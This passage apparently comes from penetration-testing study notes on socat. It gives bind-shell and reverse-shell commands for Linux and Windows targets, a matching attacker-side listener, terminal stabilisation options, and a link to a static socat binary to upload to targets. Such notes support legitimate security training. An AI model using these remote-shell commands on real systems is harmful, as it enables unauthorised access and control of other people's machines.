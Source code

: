 The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

##### Bind Shells

```
// On the linux target
socat TCP-L:<PORT> EXEC:"bash -li"

// On Windows target
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, this is the command on our attacking machine.
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

##### Stabilizing socat shells
```
// This is specific to the below socat command
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

 we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

pty -- allocates a pseudoterminal on the target(part of the stabilisation process)

stderr -- makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  

sigint -- passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell

setsid -- creates the process in a new session

sane -- stabilises the terminal, attempting to "normalise" it.
```

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command.

#### Socat Encrypted Shells
